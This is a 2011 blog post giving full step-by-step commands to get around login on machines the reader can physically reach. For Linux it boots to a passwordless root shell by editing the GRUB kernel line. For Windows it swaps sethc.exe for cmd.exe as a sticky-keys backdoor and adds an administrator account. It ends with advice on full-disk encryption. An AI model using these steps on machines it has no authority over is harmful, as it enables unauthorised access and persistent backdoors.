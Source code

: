 Title: Cute Physical Access Tricks
Date: 2011-08-02 11:11
Author: isis
Category: Technology
Tags: hacking, linux, password reset, physical access tricks, privilege escalation, root shell, windows

They're cute because they're so adorably simplistic:

If you have physical access to a Linux box, do:

`Press ESC at the grub prompt.`

Press e for edit.

Highlight the line that begins kernel ………, press e

Go to the very end of the line, add rw init=/bin/bash

press enter, then press b to boot your system.

Your system will boot up to a passwordless root shell.

 

For situations with physical access to a Windows box, boot into a live
Linux USB/CD and do:

`mkdir /mnt/ntfs`

mount -t captive-ntfs /dev/hda1 /mnt/ntfs

cd /mnt/ntfs/windows/system32

mv sethc.exe sethc.old; cp cmd.exe sethc.exe

sync

cd \~

umount /mnt/ntfs

shutdown –r

Then, in the shell which appears, make an admin account by doing:

`NET USER admin password /add`

NET LOCALGROUP administrators admin /add

Of course, neither of these work if you're using full-disk encryption.
So, Windows users: [use TrueCrypt][]! And Linux users: use [ecryptfs][]
and[luks][]! Dualbooters can [use this tutorial][]. And Mac users...from
my understanding, you're fucked and there's no way to full-disk encrypt
a Mac, but I don't use Macs, so I could be wrong. Hey, it's the price
you pay for having a hipster computer. /snark!

And full-disk encryption doesn't void flaws in physical security issues,
such as presented in the Evil Maid or Cold Boot attacks. Duh. If they
can physically get to your computer, especially if they can get to it
and then come back to it later, you're still fucked.

  [use TrueCrypt]: http://www.truecrypt.org/
  [ecryptfs]: http://www.makeuseof.com/tag/encrypt-your-files-in-linux-with-ecryptfs/
  [luks]: http://www.adamsinfo.com/linux-luks-crypt-howto/
  [use this tutorial]: http://ubuntuforums.org/showthread.php?t=761530
